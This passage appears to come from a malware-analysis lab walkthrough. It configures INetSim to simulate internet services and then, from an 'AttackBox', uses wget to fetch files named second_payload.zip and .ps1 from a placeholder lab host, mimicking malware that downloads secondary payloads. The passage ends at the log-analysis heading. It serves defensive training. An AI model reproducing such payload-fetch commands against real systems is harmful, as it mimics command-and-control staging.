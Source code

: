 ![INetSim HTML Homepage](https://github.com/user-attachments/assets/b785b374-5631-4b5e-8f26-9a40bda9ba3a)

![Fake Payload Files Downloaded](https://github.com/user-attachments/assets/c1cb97be-b474-4eb7-8ee0-f343e4035901)


### 🧱 Step 1: Configure INetSim

Check IP:

```bash
ip a
```

Edit config:

```bash
sudo nano /etc/inetsim/inetsim.conf
```

Uncomment and set:

```text
dns_default_ip MACHINE_IP
```

Verify:

```bash
grep dns_default_ip /etc/inetsim/inetsim.conf
```

### ▶️ Step 2: Start INetSim

```bash
sudo inetsim
```

Expected output:

```
Simulation running.
```

Ignore: `http_80_tcp - failed!`

---

### 🌍 Step 3: Simulate C2 with AttackBox

From the AttackBox, run:

```bash
wget https://MACHINE_IP/second_payload.zip --no-check-certificate
wget https://MACHINE_IP/second_payload.ps1 --no-check-certificate
```

Files mimic malware trying to download secondary payloads.

---

### 📊 Step 4: Analyze Logs
